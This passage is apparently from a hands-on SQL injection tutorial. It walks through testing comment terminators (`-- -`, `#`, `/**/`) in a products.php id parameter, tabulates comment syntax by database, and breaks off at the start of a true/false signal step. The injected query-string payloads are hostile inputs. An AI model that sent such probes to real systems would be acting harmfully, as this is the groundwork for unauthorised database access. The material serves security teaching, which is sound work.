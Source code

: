 **Expected (Success!):**

```html
<h1>Blue Notebook</h1>
<p>Price: $5.99</p>
```

Response length: `5432 bytes`, `200 OK` (same as baseline)

✅ **Comment works!** Write down: `Comment = -- -`

***

#### Attempt 3: `#` (Hash - MySQL alternative)

```
GET /products.php?id=1' #
```

**Expected**: Normal page returns (alternative that works)

***

#### Attempt 4: `/**/` (Multi-line comment)

```
GET /products.php?id=1' /**/
```

**Expected**: Normal page returns (another alternative)

### Common Comment Styles by Database

| Database | Comment Syntax |
| :-- | :-- |
| MySQL | `-- -` (space required!), `#`, `/**/` |
| MSSQL | `--`, `/**/` |
| PostgreSQL | `--`, `/**/` |
| Oracle | `--` |

### Your Result Example

```
id=1' --     → Still error
id=1' -- -   → Normal page returned ✅
```

**Write down**: `Comment style = -- -`

***

## Step 4: Establish True vs False Signal

### What You're Doing
